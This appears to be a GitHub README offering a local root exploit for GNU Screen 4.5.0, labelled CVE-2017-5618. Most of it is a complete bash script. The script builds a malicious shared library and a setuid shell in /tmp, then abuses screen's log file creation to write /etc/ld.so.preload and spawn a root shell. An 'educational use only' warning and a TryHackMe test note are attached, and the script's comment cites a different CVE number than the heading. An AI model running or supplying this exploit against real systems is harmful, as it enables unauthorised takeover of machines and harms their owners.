



### GNU Screen 4.5.0 Local Privilege Escalation Exploit (CVE-2017-5618)

## 📌 Overview
Local privilege escalation exploit for GNU Screen 4.5.0 that hijacks shared library loading to gain **root access** via `ld.so.preload` manipulation.


## 🔧 Technical Details

Vulnerability: CVE-2017-5618

Type: Shared Library Hijacking via ld.so.preload

Affected: GNU Screen 4.5.0 exclusively

Fixed in: GNU Screen 4.6.0+


## 🎪 The Vulnerability Circus


CVE: 2017-5618 🎯

***The Bug: Screen 4.5.0 creates log files with DANGEROUS permissions***

***The Magic: We trick it into creating /etc/ld.so.preload that loads our malicious library***

***The Payload: Instant root shell! 🐚***


## Script 🗒️

```bash
#!/bin/bash
# exploit.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# CVE-2016-8781
# tested on debian jessie (8.6) with screen 4.5.
# 0xHackers - Darke
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 
echo "[+] Triggering..."
screen -ls 
/tmp/rootshell
            
```
## Screenshots

> Checking Vulnerable Screen Version.




> Creating The File And Giving Required Permissions.




> Root Access Gained.



> Root shell achieved - full system control

## ⚠️ Warning Label


FOR EDUCATIONAL USE ONLY! ⚠️
Don't be a script kiddie - use this only on systems you own or have explicit permission to test.

## Tested On
 TryHackMe KOTH Room - Food
